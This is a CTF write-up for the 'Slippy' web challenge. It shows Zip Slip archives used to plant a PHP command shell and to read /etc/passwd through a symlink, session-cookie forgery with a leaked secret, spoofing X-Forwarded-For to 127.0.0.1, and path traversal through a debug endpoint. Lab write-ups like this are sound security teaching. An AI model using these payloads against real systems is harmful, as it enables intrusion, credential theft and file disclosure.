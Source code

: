 ```yaml
---
title: Slippy
summary: Slipping Jimmy keeps playing with Finger.
tags: [TfcCTF, Web, Zip Slip]
date: 2025-08-31
showtoc: true
---
```


# Slippy

## Description

Slipping Jimmy keeps playing with Finger.

Difficulty: Baby  
Author: Sagi

[Given files](/tfcctf/slippy/web-slippy.zip)

## Solution

The application allows us to upload a zip file.

![index](/tfcctf/slippy/index.png)

Let's start by trying a simple zip file.

```sh
$ echo foo > foo.txt; zip foo.zip foo.txt
```

After uploading it, the web application unzips the file and allows us to download the unzipped files.

![files](/tfcctf/slippy/files.png)

By examining vulnerabilities around unzipping files, I discovered the Zip Slip vulnerability. This vulnerability can allow us to do two things:

- Overwrite arbitrary files: We can create a zip file containing files that use path traversal (e.g., a file named `../index.php`). When unzipped, these files will be written outside the current directory.

```sh
$ echo '<?php echo system("id");?>' > '../index.php'
$ zip payload.zip '../index.php'
```

- Read arbitrary files: If we zip a symlink, and the web application unzips and displays its content, we can read any file on the server.

```sh
$ ln -s /etc/passwd link
$ zip --symlink payload.zip link
```

So I tried uploading a zip file containing a symlink to `/etc/passwd`, and after downloading the unzipped files, I was able to retrieve the `/etc/passwd` file from the server.

After identifying this vulnerability, I looked for the flag in the source code to see if retrieving it would be sufficient to solve the challenge.

However, it wasn't that simple. The flag is stored in a directory with a random name.

```dockerfile
RUN rand_dir="/$(head /dev/urandom | tr -dc a-z0-9 | head -c 8)"; mkdir "$rand_dir" && echo "TFCCTF{Fake_fLag}" > "$rand_dir/flag.txt" && chmod -R +r "$rand_dir"
```

Even though the flag was not directly accessible, I was able to retrieve two other secrets using the Zip Slip vulnerability:

* The secret for generating session cookies:

```sh
SESSION_SECRET=3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b
```

```js
app.use(session({
  secret: process.env.SESSION_SECRET,
  resave: false,
  saveUninitialized: false,
  store: store
}));
```

* The session ID for `develop`:

```js
const sessionData = {
    cookie: {
      path: '/',
      httpOnly: true,
      maxAge: 1000 * 60 * 60 * 48 // 1 hour
    },
    userId: 'develop'
};
store.set('amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E', sessionData, err => {
    if (err) console.error('Failed to create develop session:', err);
    else console.log('Development session created!');
});
```

With these secrets, the next step was to find a way to leak the directory name containing the flag.

While reviewing the source code, I found a debug endpoint.

```js
router.get('/debug/files', developmentOnly, (req, res) => {
    const userDir = path.join(__dirname, '../uploads', req.query.session_id);
    fs.readdir(userDir, (err, files) => {
    if (err) return res.status(500).send('Error reading files');
    res.render('files', { files });
  });
});
```

However, when I tried to access it, I received the following message:

```
Forbidden: Development access only
```

This is due to the `developmentOnly` middleware, which restricts access to this endpoint.

```js
module.exports = function (req, res, next) {
    if (req.session.userId === 'develop' && req.ip == '127.0.0.1') {
      return next();
    }
    res.status(403).send('Forbidden: Development access only');
};
```

In order to access this endpoint, I needed to be authenticated as the `develop` user and have the IP `127.0.0.1`.

I already had the `develop` user ID from earlier, so the next step was to forge a session cookie.

```js
const cookieSignature = require("cookie-signature");
const secret =
  "3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b";
const sessionId = "amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E";

const signedSessionId = "s:" + cookieSignature.sign(sessionId, secret);
console.log(signedSessionId);
```

I tested if the cookie worked by returning to the homepage, where it displayed the current user ID.

![develop](/tfcctf/slippy/develop.png)

Next, I needed to set my IP to `127.0.0.1`. To bypass this check, I used the `X-Forwarded-For` header and configured Burp Suite to automatically insert `X-Forwarded-For: 127.0.0.1` into each request.

I then tried accessing the debug endpoint again at `/debug/files?session_id=`, and it worked!

![debug\_files](/tfcctf/slippy/debug_files.png)

From the code of the endpoint, I realized that it lists all files and directories in the `uploads/PATH` directory, where `PATH` is the `session_id` query parameter.

So, I tried to use path traversal to leak the random directory containing the flag by accessing `/debug/files?session_id=../../`.

![root](/tfcctf/slippy/root.png)

Now that I had access to the server's file structure, I was able to locate the flag in the directory `/2u9wizpw/flag.txt` using the Zip Slip vulnerability from earlier.

```
TFCCTF{3at_sl1P_h4Ck_r3p3at_5af9f1}
```

# References

* Payloads All The Things: [Zip Slip](https://swisskyrepo.github.io/PayloadsAllTheThings/Zip%20Slip/)
